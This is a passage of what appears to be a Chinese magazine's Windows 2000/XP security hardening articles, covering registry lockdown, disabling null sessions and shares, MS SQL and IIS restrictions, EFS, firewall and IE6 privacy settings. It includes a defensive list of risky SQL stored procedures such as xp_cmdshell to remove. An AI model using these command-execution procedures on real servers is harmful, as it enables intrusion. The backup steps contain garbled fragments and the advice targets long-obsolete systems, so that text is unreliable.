下面的 Application、Security、System，如果安装了其他服务还会有 Directory Service、DNS Server、File Replication Service。在每个项下添加数值名称 `RestrictGuestAccess`，数值类型为 `DWORD`，值为 `1`。

因为不能关 Server 服务，那么就有必要关掉默认共享。打开 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters`
新建数值名称：`AutoShareServer`，类型：`REG_DWORD`，值为 `0`。但这样做并不能关掉默认的 IPC$ 共享，只有在系统重启后才生效。

Windows 2000 的内核支持五个子系统：OS/2 子系统、POSIX 子系统、Win32 子系统、MS-DOS VDM、Win16 VDM。大多数用户是不需要 OS/2 子系统和 POSIX 子系统的，它们的存在又是一种安全隐患，至少在 NT 4.0 之前版本中存在着一个由 POSIX 子系统带来的安全问题。尽管 Windows 2000 在这方面已经做了很多努力，还是有必要删除下面所有子键：

- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\OS/2 Subsystem for NT`
- `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\Os2Lib Path`
- `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\SubSystems\Optional`
- `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\SubSystems\Posix`
- `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\SubSystems\Os2`

删除目录 `%SystemRoot%\System32\OS2`。

关闭 DOS 8.3 格式文件名的支持可以击败一些用于提升权限的欺骗企图。同时还可以带来系统性能的提升。打开 `MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem` 把 `NtfsDisable8dot3NameCreation` 的值设为 `1`。

Windows 2000 延续了 NT 4.0 臭名昭著的“空会话”。让我们来取消它。打开 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\`，创建数值名称 `RestrictAnonymous`，设置为 `REG_DWORD 1`。事实上即使取消了“空会话”，匿名用户还是可以得到很多服务器的信息，最好的解决方法是用上面提到的 IPsec 过滤的方法，对外屏蔽 139/TCP/UDP、135/TCP/UDP、445/TCP/UDP 端口。

默认情况下，应用程序崩溃后，drwtsn32.exe 会建立一个程序的内存转储文件存放在目录“\Documents and Settings\All Users\Documents\DrWatson”下。权限为 Everyone 完全控制。user.dmp 的内容可能包括账号、口令、邮件、浏览过的网页、正在编辑的文件等，所以必须取消这个特性：运行 drwtsn32，去掉“创建故障转储文件”选项。

因为并不打算对外提供 FTP 服务，所以有必要对 FTP 做一些限制。（事实上，如果可能，尽量不要使用 IIS 的 FTP 服务器。）首先在 Internet 服务管理器中改掉默认端口，尽量改高一些，但不要使用出现在标准服务列表中的端口，这样被扫描器扫到的可能性就大大减少了。然后在“目录安全型”里设定可以访问的 IP 或 IP 范围，如图 9。

对于的确需要向外提供服务的 FTP 服务器，建议仔细配置主目录参数，将一个完整的磁盘分区作为 FTP 存储，且只让该磁盘分区可通过 FTP 访问。

在资金不紧张的情形下尽量不要让 Web 服务器运行 SQL，SQL 服务器应该是只有内网能够直接访问的，至少不应该让暴露在外的服务器存储企业内部资料。我们假设 MARS 的 SQL 只是用于 Web 的。

首先，安装 MS SQL 的时候，在三种不同的用户身份验证模式之中应该选择混合模式。可以让 MSSQL 以普通用户身份运行，而不必是 SYSTEM 权限。先建一个用户 SQLUSER，然后在“本地安全策略”“用户权利指派”中给 SQLUSER 指派以下权利：替换进程级记号；添加配额；以操作系统方式操作；作为服务登录。用 regedt32 给予 SQLUSER 以下注册表键值的读写权：

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Microsoft SQL Server`
- `HKEY_LOCAL_MACHINE\System\Current Controlset\Services\MSSQL$Instancename`
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Perflib`
- 给予目录 `\Program Files\Microsoft SQL Server\Mssql` 的读写权。

MS SQL 的存储过程是如此的多，以至于很多都只有入侵者才用得上。所以必须删掉一部分。首先要删掉的是 `xp_cmdshell`，用它可以直接运行系统命令。对安全有威胁的还有 OLE 存储过程：

- `Sp_OACreate`
- `Sp_OADestroy`
- `Sp_OAGetErrorInfo`
- `Sp_OAGetProperty`
- `Sp_OAMethod`
- `Sp_OASetProperty`
- `Sp_OAStop`

以及访问注册表的存储过程：

- `Xp_regaddmultistring`
- `Xp_regdeletekey`
- `Xp_regdeletevalue`
- `Xp_regenumvalues`
- `Xp_regread`
- `Xp_regremovemultistring`
- `Xp_regwrite`

下面这些存储过程也有一定的安全隐患：

- `xp_sdidebug`, `xp_availablemedia`, `xp_deletemail`, `xp_dirtree`, `xp_dropWebtask`
- `xp_dsninfo`, `xp_enumdsn`, `xp_enumerrorlogs`, `xp_enumgroups`, `xp_eventlog`
- `xp_sscanf`, `xp_findnextmsg`, `xp_enumqueuedtask`, `xp_fixeddrives`, `xp_getfiledetails`
- `xp_getnetname`, `xp_grantlogin`, `xp_logevent`, `xp_subdirs`, `xp_snmp_getstate`
- `xp_perfsample`, `xp_logininfo`, `xp_sqltrace`, `xp_makeWebtask`, `xp_msver`
- `xp_readmail`, `xp_revokelogin`, `xp_runWebtask`, `xp_readerrorlog`, `xp_perfstart`
- `xp_schedulersignal`, `xp_snmp_raisetrap`, `xp_sqlinventory`, `xp_sqlregister`, `xp_sendmail`
- `xp_sprintf`, `xp_servicecontrol`, `xp_stopmail`, `xp_startmail`, `xp_perfmonitor`
- `xp_unc_to_drive`, `xp_perfend`, `xp_loginconfig`

但在删除前应该肯定没有应用程序需要使用他们（一般是不会的）。删除用的命令：

```sql
use master
go
execute sp_dropextendedproc 'xp_cmdshell'
go
```

关于 SQL 明文传输密码问题，已经有这方面的资料了，但我们在这里并不考虑，因为我们的 MARS 并不向外提供数据。

和 FTP 一样的理由，我们需要改掉 MS SQL 默认的 1433 端口。在“实例”“属性”中选择“网络配置”、TCP/IP 协议的属性，将 TCP/IP 使用的默认端口改为其他端口，原则同 FTP。微软大概是出于易用性的理由，默认开了端口，用于查询 MS SQL 的一些信息，包括我们想隐藏的监听端口，而这个 UDP 1434 正常情况下是关不掉的，所以在上面提到的 IPSec 过滤中应该把这个端口算进去。

对安全设置较好的主机的进攻，特别是对数据库的，一般都不是直接利用操作系统的问题，相当一部分源于不安全的 CGI，对于在 MARS 上使用的 ASP 代码在运行前需要进行安全审核。最好不要使用网上的各种免费留言板、聊天室之类的东西。然而对代码的安全审核所需的技术和成本不是所有企业都可以承受的，所以有必要有针对地进行一些设置。

我们先假设 MARS 的 ASP 代码是不安全的，入侵者可以通过某个缺陷运行自己的代码，还可能上传文件。然后在这种假设下进行我们的设置。首先要删除 WSH 对象，这个对象可以运行系统命令，读写注册表，使用网络资源，甚至可以查看有几个 CPU，在正常的 ASP 中是绝没有可能用到的。把以下注册表键值下的所有内容删除：
`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}`

FileSystemObject 在很多 ASP 中还是有用的，虽然有潜在的安全性问题，建议先遍历一下自己的所有代码，确定没有使用 FileSystemObject，再将其删除：
`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0D43FE01-F093-11CF-8940-00A0C9054228}`

对于 IUSR_MARS 和 IWAM_MARS 只需要有以下目录的读取、运行权，IIS 就可以正常运行了：

- `D:\Webroot`
- `%SystemRoot%`
- `%SystemRoot%\System32`
- `%SystemRoot%\System32\Inetsrv`
- `%SystemRoot%\System32\Inetsrv\Asp` 及所有子目录
- `\Program Files\Common Files` 及所有子目录

ASP 安全不是本文的主题，这里就不再多说了。最后提醒大家，在上述工作做完之前，主机应当是和网络完全隔离的。

以上的各项安全设置都是很苛刻的，譬如我们设定了 TCP/IP 过滤，那么外网根本不能通过 IPC 入侵，也连不上 FTP，实际应用中大家可以灵活掌握，但有一点是肯定的：在安全上无论怎样小心都是不过分的。

> 后记：就在撰写本文过程中，为了测试一些数据，笔者安装了一个默认的 IIS，后又连上网络，仅十几分钟的时间就被 Nimda 蠕虫感染。因为发现及时，没有造成太大损失。系统安全，更多的是我们的意识和警惕。

### 让你的文件夹安全共享
文／郑陆军

目前的局域网广泛使用 Windows NT/2000 为服务器，Windows 98 作客户机，“网上邻居”是最常见的普通共享形式，其特点是简单、实用，但安全性差。虽然对于安全性可以借助共享的属性（分为只读、完全、口令 3 种）适当选择操作，但是基于 Windows 98 的网络共享，其安全性很有问题，经常可以不敲任何口令，就可以访问带有口令方式的共享文件夹，这样的事例屡见不鲜。所以，如何简易地实现安全共享，是每位网管员日常面对的课题。

- **要点**：以服务器为根据地，设置访问权限及安全性。

#### 设置共享文件夹
对于服务器中共享文件夹的访问是需要用户权限的。设置有两部分内容：“共享”和“安全”。

#### 隐藏共享文件夹
隐藏共享文件夹的方法：关键是设置共享文件夹的名字，学问就在名字的后面加上“$”字符。比如：共享文件夹的名字为 `Temp$`，使用的方法与上面的普通共享不一样，你会发现“网上邻居”找不到 temp 文件夹，这就对了，我们的目的就是要藏起来。偷偷访问的方法是：注销原来的用户，以特殊权限的用户重新登录。然后，映射网络驱动器，重点是路径。比如：服务器的名字是 Server，共享文件夹的名字为 `temp$`，则路径为 `\\Server\temp$`。

为了安全保密，平时应该以普通级别用户登录，需要访问特殊权限时，临时修改用户再重新登录。

> 编者按：最近这几年，微软的操作系统更新太快，刚熟悉了 Windows 2000，他们又把 Windows XP 捧出来，说实在，实在有点受不了 Windows XP 的界面和它庞大的体积。不过，现在刚刚购买的计算机中很多都预装了 Windows XP，这样看来， Windows XP 用户也已经不少了，故决定本期刊登一篇 Windows XP 安全性的重头文章。

### 如何使你的 Windows XP Professional 更安全
文／劲风网络技术小组·劲风

Windows XP 被人称为“有史以来最完美的操作系统”，微软甚至夸耀地说，“使用 Windows XP 的用户将不再需要为网络访问安全担心！”虽然这些说法有点夸张，但亦不无道理。Windows XP 为 NT 内核型操作系统，从 Windows 2000 到 Windows XP，犹如从 Windows NT 到 Windows 2000，有了本质的飞跃，其功能的确得到了很大的改进。尽管前段时间它的漏洞新闻惊报不断，但只要合理地利用系统的设置，还是比较安全的。

由于笔者一直使用的是 Windows XP Professional 中文版，平时也比较关注该版的安全设置，相信现在使用这个版本的用户也比较多，所以本文主要针对 Windows XP Professional 中文版而写。注意：在 Windows XP 中，“开始”菜单有新的模式和传统模式两种，笔者习惯使用传统的模式，文中一律按传统模式描述，可能与您的菜单有点不符，不过没关系，这并不影响对内容的理解。在写本文时，笔者参考了多个国内外网站的资料，并在 QQ 上和几位高手朋友们进行了交流，在此对他们表示感谢。

#### 系统安装时的几个危险因素
系统的安全是从安装时起就一步一步积累起来的，在 Windows XP 的安装过程中存在着几个危险因素，在正式使用系统提供的安全功能之前，我们最好先来弄明白安装时的几个安全要点。

#### 一、让系统独占一个分区，并且与重要的文件分隔开来
由于 Windows XP 的安装程序设置了最高的优先权，可写入更新旧文件，会在不提示的情况下覆盖默认路径的文件。如果你选择了升级安装，那么，原来 Windows 默认路径内的文件就有丢失的危险。所以，建议大家不要把重要的文件放在安装 Windows XP 的分区内，特别不要放在 C 盘，最好让 Windows XP 独占一个分区——大家都应该养成这样的良好习惯。同时，建议大家先把安装程序拷贝到硬盘里，从硬盘上安装，避免安装过程中读光盘出错。

#### 二、加载程序，避免损坏分区表
安装程序主要是在 C 盘先建立一个临时目录，把安装程序中某些压缩包内的文件释放到该目录里，为安装做好准备。Windows XP 的压缩安装文件很大，在 DOS 下安装时，必须先加载 SMARTDRV.EXE。值得注意的是：要在 CONFIG.SYS 里先加载 HIMEM.SYS，否则只键入 SMARTDRV 是无效的，导致安装时间加长数倍。没加载 SMARTDRV 的人可能会因为拷贝过程特别漫长，以为是死机，便强行重新启动，因此损坏分区表。

#### 三、推荐使用 NTFS 格式化硬盘，建议使用 PQMagic
大家知道，NTFS 格式对于数据的保密有很大的好处，微软推荐使用 NTFS 的格式作为文件系统，在列表中会出现“将安装的分区格式为 NTFS”的选项。谁也不能保证万无一失，如果选择格式化为 NTFS，万一 Windows XP 的安装程序在转化格式的时候出现中途死机，很可能也会破坏分区表。而且 NTFS 不能用 DOS 的启动盘启动，新手朋友很有可能会不知所措，强行用 FDISK 重新分区而损失所有数据。以前我有个朋友在装 Windows 2000 的时候选择 NTFS 格式就出现过此类的遭遇，弄得整个盘的数据都丢失了（其实是他不懂救护而已）。

#### 四、尽量避免超频系统或使用假冒的名牌外设
当 Windows XP 的安装进入后期，它会非常严格地检测你的硬件配置，以便为即插即用的硬件设备安装正确的驱动程序，可是很多兼容性不好的机器都会在此步出现蓝屏或是自动跳出，或是死机等等现象。如果你超频了系统或用了假冒的名牌外设，如鼠标、键盘等，出问题的几率就更大，这也是需要注意的。

#### 充分利用安全设置，打造一个安全的 PC 系统
如果你觉得安装过程没有问题了，或者你早已经安装好了系统，那么请看看下边的设置吧，这些设置将对您的系统安全很重要。

#### 一、使用备份以保护数据
在系统硬件或存储媒体出现故障的情况下，Windows XP Professional 中的“备份”应用程序可保护您的数据不会意外丢失。例如，可以使用备份实用程序复制硬盘上的数据，然后将其存档到另一个磁盘、磁带、网络共享部分或另一个系统上。如果硬盘被擦除或损坏，即可方便地从存档副本中还原数据。

下面介绍一下如何将文件备份到文件夹或磁带上：

1. 单击“开始”->“程序”->“附件”->“系统工具”，然后单击“备份”，打开备份应用程序。
2. 默认情况下将打开备份或还原向导。如果备份或还原向导未默认启动，您仍可以使用它来备份文件，方法是：单击工具菜单，然后单击备份向导。
3. 单击备份或还原向导中的“高级模式”按钮。
4. 单击备份选项卡，然后单击“作业”菜单上的“新建”。再单击复选框，选择要备份的驱动器、文件夹和文件，通过选中文件或文件夹左侧的复选框，指定要备份的文件和文件夹。
5. 在“备份目的”项中，执行下列操作之一：
   - 如果想将文件和文件夹备份到某个文件中，请单击“文件”（默认该项是被选定的）。
   - 如果想将文件和文件夹备份到磁盘上，请单击“磁盘设备”。
6. 在备份媒体或文件名中，执行下列操作之一：
   - 如果是将文件和文件夹备份到文件中，请键入备份文件（.bkf）的路径和文件名，或者单击“浏览”按钮以查找文件。
   - 如果是将文件和文件夹备份到磁带上，请单击所要使用的磁带。
7. 通过单击“工具”菜单，然后单击“选项”，指定所需的任何备份选项，例如，备份类型和日志文件类型。指定完备份选项后，单击“确定”。
8. 单击“开始备份”，然后对备份作业信息对话框进行更改。
9. 如果想设置高级备份选项（例如数据校验或硬件压缩），请单击“高级”。设置完高级备份选项后，开始备份。份选项后，单击“确定”。

- 10. 单击“开始备份”，启动备份操作，和网络此时易于受到攻击。

## 二、使用 Internet 连接防火墙

Windows XP 与以往的 Windows 操作系统不同，微软在其中包含了“Internet 连接防火墙（ICF）”软件。大家都知道，防火墙是一种充当网络与外部世界之间保护屏障的安全系统，Windows XP 自带的“Internet 连接防火墙”可用于限制 Internet 与家庭或小型办公室之间进行通讯的信息。ICF 还可以保护通过电缆调制解调器、DSL 调制解调器或拨号调制解调器连接 Internet 的单台计算机的安全。这一特性对于一般的单机用户来说，微软照顾得算是周到了——默认情况下，ICF 是安装并且运行的，你可以根据需要来关闭或启用它。

下面说说如何启用（或禁用）Internet 连接防火墙：

- 1. 单击“开始”菜单→“设置”→“控制面板”，然后点击“网络和 Internet 连接”，再点击“网络连接”，打开“网络连接”。
- 2. 单击所要保护的拨号、局域网或高速 Internet 连接（笔者以拨号连接“163”为例）。然后在窗口左边的“网络任务”下，单击“更改此连接的设置”，弹出该连接的“属性”对话框。

在“高级”选项卡上的 Internet 连接防火墙下，选择下列之一：

- 3. 若要启用 Internet 连接防火墙（ICF），请选择“通过限制或阻止来自 Internet 的对此计算机的访问来保护我的计算机和网络”复选框，如图 3 所示。
- 4. 若要禁用 Internet 连接防火墙，请清除“通过限制或阻止来自 Internet 的对此计算机的访问来保护我的计算机和网络”复选框。这样将禁用防火墙。

注意：如果您的网络使用 Internet 连接共享（ICS）为多台计算机提供 Internet 接入，则应在共享 Internet 连接上使用 ICF。但是，可以独立启用 ICS 和 ICF。对于未直接连接 Internet 的任何连接而言，不应启用防火墙。如果您的网络已经有防火墙或代理服务器，则无需 ICF。

要完成这一步骤，必须以所有者账户登录到您的计算机上。由于 ICF 会干扰文件和打印机共享，因此不应在虚拟专用网络（VPN）连接或客户端上启用 Internet 连接防火墙。“Internet 连接共享”主机的专用连接上不能启用 ICF。

## 三、加密数据以保障数据安全

也许您会将有价值的信息存放在计算机上。在您家中及公司的机器内，可能有敏感的公司和客户信息，或者是个人银行存款支付报告书，您肯定想确保这些信息的安全，怎么办呢？Windows XP 中的 NTFS 文件系统具有以前 Windows 95、Windows 98 或 Windows Me 所不具备的几项安全优势，其中之一就是 NTFS 文件系统先进的“加密文件系统（EFS）”安全功能。

长期以来令人担心的一个问题是：如何防止数据被窃？使用 Windows XP 提供的 EFS，可以有选择地对文件（或文件夹）进行加密。这样，即使有人能盗取文件，也无法对文件进行解密，因此能够有效防止数据被窃。需要知道的是：出于安全的考虑，EFS 中包含多层加密，每个文件都有唯一的文件加密密钥，并且必须使用该加密密钥才能解密文件的数据。幸运的是，该密钥也进行了加密，而且仅对得到数据使用授权的人可用。EFS 与文件系统组合在一起，使文件更难于被攻破，而管理却更加简便。选择进行文件加密后，数据加密和解密的实际过程就成为完全透明的（会用鼠标，能看懂提示即可）。

加密文件（或文件夹）的方法如下：

- 1. 单击“开始”菜单—>“程序”—>“附件”，然后单击“Windows 资源管理器”，打开“Windows 资源管理器”。
- 2. 选择要加密的文件（或文件夹），单击右键，然后选择“属性”。
- 3. 在“常规”选项卡上，单击“高级”，如图 4 所示。
- 4. 选中“加密内容以便保护数据”复选框，如图 5 所示。
- 5. 点击“确定”。

加密时请注意：

- 1. 压缩的文件或文件夹不能再进行加密，如果对压缩文件或文件夹进行加密，则该文件或文件夹将进行解压缩。
- 2. 标记为“系统”属性的文件是不能加密的，而位于系统根目录结构中的文件也不能进行加密。
- 3. 解密文件夹时，将由您确定“是否解密其中的所有文件和子文件夹”。如果选择“仅解密文件夹”，则其中的文件和子文件夹仍将处于加密状态，但新的文件和子文件夹将不会自动进行加密了。

解密文件（或文件夹）的方法如下：

- 1. 打开“Windows 资源管理器”，方法同上。
- 2. 在已经加密的文件（或文件夹）上单击右键，然后选择“属性”。
- 3. 在“常规”选项卡上，单击“高级”。
- 4. 去掉“加密内容以便保护数据”复选框。
- 5. 点击“确定”即可。

值得注意的是：我们在加密文件夹的时候，需要选择“是否加密其中现有的所有文件和子文件夹”，如图 6 所示。当你加密一个文件夹时，文件夹内的所有文件和子文件夹都被自动加密了。在加密单个文件时，必须决定“是否加密包含该文件的文件夹”。有一点我们是需要理解的：如果选择“加密文件夹”，则所有以后添加到文件夹中的文件和子文件夹都将进行加密；加密时，EFS 自动生成一个加密密钥，这样，你的数据就安全得多了。

## 四、将虚拟专用网络用于安全的 Internet 数据传输

VPN 使用一项称为隧道的技术，可以通过 Internet 将数据安全地传输给您工作场所网络上的远程访问服务器。通过公共 Internet 发送的数据一般很容易被窃取，但利用虚拟专用网络（VPN）连接却可保证 Internet 通讯的安全，并可延伸您的专用网络。

有两种创建 VPN 连接的途径：与 Internet 服务提供商（ISP）进行拨号连接，或者直接连接 Internet。

- 1. 如果是拨入 ISP，您的 ISP 将随即呼叫专用网络的远程访问服务器，从而建立 PPTP 或 L2TP 隧道。完成身份验证后，即可访问专用网络。
- 2. 如果已连接到 Internet、局域网、电缆调制解调器或数字用户线路（DSL）上，则可通过 Internet 搭建隧道，并直接连接到远程访问服务器上。完成身份验证后，即可访问公司网络。

建立虚拟专用网络（VPN）连接的方法如下：

- 1. 单击“开始”—>“设置”—>“控制面板”，单击“网络和 Internet 连接”，然后单击“网络连接”，打开“网络连接”。
- 2. 在“网络任务”下，单击“创建一个新的连接”，弹出“新连接向导”，如图 7 所示，然后单击“下一步”。
- 3. 单击“连接到我的工作场所的网络”，如图 8 所示，然后单击“下一步”。
- 4. 单击“虚拟专用网络连接”，如图 9 所示。单击“下一步”，然后遵照向导中的说明进行操作即可。

注意：
（1）您可以创建多个 VPN 连接，方法是在“网络连接”文件夹中复制 VPN 连接。随后，可以对连接进行重命名并修改连接设置。这样即可方便地创建不同的连接，从而可以提供多个主机、安全选项等。

(2) 如果有活动的 Winsock 代理客户端程序，将无法创建 VPN。在数据按 VPN 所要求的方式进行处理之前，Winsock 代理客户端程序就会立即将数据重定向给配置好的代理服务器。若要建立 VPN，应禁用 Winsock 代理客户端程序。

## 五、使用访问控制来限制可以使用文件的人员

Windows XP 推荐使用 NTFS 文件系统，可以实现访问控制。不过，要在使用 NTFS 文件系统的驱动器上才有这个功能。我们利用 Windows XP 中的访问控制列表，可以对访问计算机数据或网络数据的人进一步加以限制。同时，访问控制功能可用于对特定用户、计算机或用户组的访问权限进行限制。大家还是先来弄明白几个权限的问题吧。

**设置文件和文件夹上的权限：** 设置权限后，即定义了授予用户或组的权限类型。设置权限时，即指定了组和用户的访问级别。例如，您可以允许某个用户读取某个文件的内容，而允许另一个用户更改该文件，并禁止其他用户访问该文件。对打印机也可以设置类似的权限，从而使某些用户能配置打印机，而其他用户则只能利用它进行打印。注意：若要更改对某个文件或文件夹的权限，您必须是该文件或文件夹的所有者，或者您必须具有进行这种更改的权限。

**组权限：** 针对组指定权限是最好的，这样可以省却您维护各个用户访问控制的时间。在适当的情况下，可指定完全控制，而非依次指定各个权限。使用拒绝，可以排除具有“允许”权限的组的某个子集，或者在已向用户或组授予完全控制权限的情况下排除某个特殊的权限。

在设置文件或文件夹权限之前，我们先来做点预备工作——显示“安全”选项卡，因为，我们以下的操作将用到这一选项，您不做的话，按照默认情况是不显示这一项的。

- 1. 打开“我的电脑”->“工具”->“文件夹选项”。
- 2. 在“查看”选项卡上，清除“高级设置”下的“使用简单文件共享（推荐）”项，如图 10 所示。做好了这步工作，我们就看下面的权限设置吧。

设置（查看、更改或删除）文件和文件夹的权限的方法如下：

- 1. 单击“开始”->“程序”->“附件”，然后单击“Windows 资源管理器”，打开“Windows 资源管理器”。
- 2. 查找要设置权限的文件或文件夹，如：笔者要设置权限的文件夹名为“晓宁”。
- 3. 右键单击文件或文件夹，单击“属性”，然后单击“安全”选项卡。请参阅下面的显示“安全”选项卡，如图 11 所示，点击“确定”即可。
- 4. 执行下列操作之一：
    - 1. 若要为某个未在组或用户名称框中出现的组或用户设置权限，请单击“添加”。键入要为其设置权限的组或用户的名称，然后单击“确定”（添加新用户或组时，该用户或组将默认具有读取和执行、列出文件夹内容及读取权限）。如：图 12 所示，增加一个 cenjinfeng 用户。
    - 2. 若要更改或删除现有组或用户的权限，请单击“组或用户名”内的用户或组。
- 5. 执行下列操作之一：
    - 1. 若要允许或拒绝某种权限，请在“（用户或组）的权限”框中，选中“允许”或“拒绝”复选框即可。
    - 2. 若要删除“组或用户名”框中的组或用户，请单击删除。

注意：如果“（组或用户）的权限”下的复选框显示为阴影，或者“删除”按钮不可用，则说明该文件或文件夹继承了其父文件夹的权限。

## 六、使用 Internet Explorer 6 中的安全和隐私功能

Internet Explorer 一直都是微软 Windows 操作系统自动捆绑的网络浏览器，随着系统版本的增加，浏览器的版本也不断更新。现在，在 Windows XP 中的版本已经高到 IE6.0 了，功能比以前任何一个版本的 IE 都强！但有些功能是值得我们去利用的，如“安全和隐私功能”对于我们这帮拨号上网的网虫就很重要。

我们先来了解一下什么是 Cookie 吧：Cookie 是由 Web 站点创建的小文本文件，存储在您的计算机上。这样，当您下一次访问该站点时，它可以自动获取有关您的信息，例如您的姓名、地址及电话号码。Cookie 的类型有多种。对于 Internet Explorer 6 而言，您可以选择是允许在计算机上使用一些 Cookie，不允许使用 Cookie，还是允许使用所有的 Cookie。Windows XP 中自带的 Internet Explorer 6 通过让您进一步控制 Cookie 并提供有关 Web 站点上隐私策略的详细信息，可帮助您保护自己在 Web 上的隐私。

查看 Web 站点的 P3P 隐私策略的方法如下：

- 1. 打开 Internet Explorer，单击“查看”菜单中的“隐私报告”，如图 13 所示。
- 2. 双击要查看其隐私策略的 Web 站点。

注意：尽管 Internet Explorer 可以显示 Web 站点的 P3P 隐私策略，但 Internet Explorer 却无法检查该 Web 站点是否符合它自己的隐私策略。

查看完 P3P 隐私策略后，可以指定希望 Internet Explorer 如何处理所选 Web 站点的 Cookie。如果希望由 Internet Explorer 根据其隐私策略与您隐私设置的比较而确定是否允许该 Web 站点在您的计算机上保存 Cookie，请选择“使用我的隐私设置”。如果希望 Internet Explorer 始终允许该 Web 站点的 Cookie 保存到您的计算机上，请选择“总是允许该站点使用 Cookie”。如果希望 Internet Explorer 始终不允许该 Web 站点的 Cookie 保存到您的计算机上，请选择“总是禁止该站点使用 Cookie”。更改 IE 隐私设置的方法如下：

- 1. 在 Internet Explorer 中，单击“工具”菜单中的“Internet 选项”。
- 2. 在“隐私”选项卡上，上移滑块将提高隐私级别，下移滑块则降低隐私级别（各级别的含义参照下表）。

| 选择内容 | 指定内容 |
|---|---|
| 禁止所有 Cookie | - 禁止使用所有 Web 站点的 Cookie<br>- Web 站点将无法读取计算机上现有的 Cookie |
| 高 | - 禁止使用未采用压缩策略（压缩的计算机可读的隐私语句）的所有 Web 站点的 Cookie<br>- 对于不经过您明确同意就使用具有个人识别性的信息的所有 Web 站点，禁止使用其 Cookie |
| 中高 | - 禁止使用未采用压缩策略（压缩的计算机可读的隐私语句）的第三方 Web 站点的 Cookie<br>- 对于不经过您明确同意就使用具有个人识别性的信息的第三方 Web 站点，禁止使用其 Cookie<br>- 对于不经过您默许就使用具有个人识别性的信息的第一方 Web 站点，禁止使用其 Cookie |
| 中 | - 禁止使用未采用压缩策略（压缩的计算机可读的隐私语句）的第三方 Web 站点的 Cookie<br>- 对于不经过您默许就使用具有个人识别性的信息的第三方 Web 站点，禁止使用其 Cookie<br>- 对于不经过您默许就使用具有个人识别性的信息的第一方 Web 站点，在关闭 Internet Explorer 时，将把它的 Cookie 从计算机上删除 |
| 低 | - 禁止使用未采用压缩策略（压缩的计算机可读的隐私语句）的第三方 Web 站点的 Cookie<br>- 对于不经过您默许就使用具有个人识别性的信息的第三方 Web 站点，在关闭 Internet Explorer 时，将把它的 Cookie 从计算机上删除 |
| 接受所有 Cookie | - 所有 Cookie 都将保存到计算机上<br>- 创建计算机上现有 Cookie 的 Web 站点可以读取这些 Cookie |

特别提醒：既然说到了 IE 的安全，那就顺便说说系统版本升级导致 IE 重新出现漏洞的影响了。国外 2002 年 2 月 1 日发现的漏洞，如果您把 Windows XP 升级到 Windows XP Pro，IE 6.0 就会重新安装一次，以前下载的补丁程序将被全部清除，操作系统的巨大漏洞又会重新暴露出来。

据 Jeffrey Dronenburg 发现，Windows XP 的升级程序不仅会删除 IE 的补丁文件，还会导致微软的升级服务器不能正确识别 IE 是否存在缺陷。也就是说，Windows XP Pro 系统存在两个潜在的威胁：一是某些网页或 HTML 邮件的脚本能够自动调用 Windows 的 .EXE 程序，其结果相当危险；二是黑客可以通过 IE 漏洞窥视用户的电脑文件，虽然黑客不能删除这些文件，但是用户的隐私信息可能被泄露。所以，升级的用户要注意了：如果您的 IE 浏览器未曾下载过升级补丁，或是刚刚把 Windows XP 升级到 Pro 版本，请到微软网站下载新的补丁程序。

### 使用 Windows XP 的几个“忌讳”

最后，简单说说使用 Windows XP 的几个“忌讳”，也许您认为这是小事一桩，但它们造成的危害却是不容忽视的。

- 1. **忌虚拟光驱**：虚拟光驱通过特殊的机制，在“设备管理器”中骗过 Windows，让 Windows 以为增加了物理的光驱。Windows XP 只设计了还原硬件的驱动，没想到要“还原／删除”硬件本身。在 Windows XP 里是不稳定的，容易引起 Windows XP 的死机，此其一。
- 2. **忌外猫的电源没打开**：很多猫在 Windows XP 里没有适当的驱动，只能用 FOR 2000 或 NT 的驱动来代替，而且常常出现拨号的异常问题。特别是很多外猫，如果在启动 Windows XP 的时候没有打开 Modem 的电源，进入图形界面后再打开 Windows XP 就会找不到硬件，需要你在设备管理器中再次刷新扫描硬件或是重新启动 Windows XP，很麻烦——有的人不知道缘由，没有重新启动 Windows XP，而是不断下载安装不同版本的程序更新、还原驱动，可能导致整个系统崩溃。所以，用外猫的朋友们请注意：进入 Windows XP 前，记得打开你的 Modem 电源。
- 3. **忌安全知识不足而打开默认共享和远程协助**：Windows XP 默认是打开很多网络功能的，为了堵住安全的隐患，不太熟悉网络安全知识的人，如果不需要上局域网的话，建议关闭共享和远程协助功能（需要在管理工具中关闭服务器服务）。
- 4. **忌装好 Windows XP 后又在同一分区安装 Windows 9x**：如果你在装好了 Windows XP 后，又在同一分区安装一个 Windows 98，不仅可能会破坏多操作系统的启动菜单，而且还可能因为 98 的安装程序覆盖了文件而破坏 Windows XP 系统，因为 Windows 9x 默认安装路径也是 Windows。所以，建议你还是每一个操作系统独立占一个分区好，而且注意先装低版本的视窗，再装 Windows XP，以免又要用安装程序修复多重启动菜单。

安全问题是一个很复杂的问题，并不是说简简单单地设置几下系统就万事无忧了，在不同的时期、不同的环境需要不同的维护方法。但愿以上的介绍能给您减少几分安全顾虑。

### Windows 2000 浏览“网上邻居”使用小经验

在 Windows 2000 中打开“邻近的计算机”常常会等上几十秒的时间，让人无法忍受。仔细分析会发现，在找到的计算机当中，打开本机时除显示共享文件夹外，还有“打印机”和“任务计划”两项，而邻近的计算机则只有共享文件夹。通过“网上邻居”浏览计算机时，Windows 2000 会先搜索自己的共享目录和可作为网络共享的打印机以及“任务计划”中与网络有关的计划任务，这势必会影响到浏览速度，所以，应该取消搜索“打印机”和“任务计划”这两项。

